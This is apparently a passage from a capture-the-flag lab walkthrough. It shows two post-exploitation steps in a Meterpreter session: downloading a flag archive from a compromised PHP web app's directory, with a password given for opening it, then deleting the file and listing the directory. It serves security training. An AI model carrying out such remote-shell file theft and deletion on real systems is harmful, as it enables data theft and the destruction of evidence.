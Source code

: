 8. Get the flag5.zip to local machine, open it using password 56784. The information given in the extracted file will give clue about the location of the another flag.

```bash
meterpreter > download flag5.zip
[*] Downloading: flag5.zip -> flag5.zip
[*] Downloaded 208.00 B of 208.00 B (100.0%): flag5.zip -> flag5.zip
[*] download   : flag5.zip -> flag5.zip
```

<figure><img src="../../../../../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

9. Delete the .zip file from the directory.

```bash
meterpreter > rm flag5.zip
meterpreter > ls
    Listing: /app
    =============
    
    Mode              Size   Type  Last modified              Name
    ----              ----   ----  -------------              ----
    40777/rwxrwxrwx   4096   dir   2016-02-15 10:35:00 +0000  .git
    40755/rwxr-xr-x   4096   dir   2024-07-30 13:25:11 +0000  .xoda
    100777/rwxrwxrwx  10273  fil   2016-02-15 10:35:00 +0000  LICENSE
    100777/rwxrwxrwx  8703   fil   2018-10-05 18:41:42 +0000  README
    100777/rwxrwxrwx  79     fil   2016-02-15 10:35:00 +0000  README.md
    40777/rwxrwxrwx   4096   dir   2018-10-06 06:33:10 +0000  Secret Files
    100777/rwxrwxrwx  1284   fil   2018-10-05 18:41:42 +0000  config.php
    40777/rwxrwxrwx   4096   dir   2024-07-30 13:27:56 +0000  files
    100777/rwxrwxrwx  19     fil   2024-07-30 14:43:00 +0000  flag1
    100777/rwxrwxrwx  40563  fil   2018-10-05 18:41:42 +0000  functions.php
    100777/rwxrwxrwx  57739  fil   2018-10-05 18:41:42 +0000  index.php
    40777/rwxrwxrwx   4096   dir   2018-10-05 18:41:42 +0000  js
    100777/rwxrwxrwx  14598  fil   2016-02-15 10:35:00 +0000  logo.png
    100777/rwxrwxrwx  5265   fil   2018-10-05 18:41:42 +0000  mobile.css
    100777/rwxrwxrwx  19     fil   2016-02-15 10:35:00 +0000  phpinfo.php
    100777/rwxrwxrwx  5758   fil   2018-10-05 18:41:42 +0000  style.css
    40777/rwxrwxrwx   4096   dir   2018-10-05 18:41:42 +0000  xd_icons
    100777/rwxrwxrwx  18850  fil   2018-10-05 18:41:42 +0000  zipstream.php
```
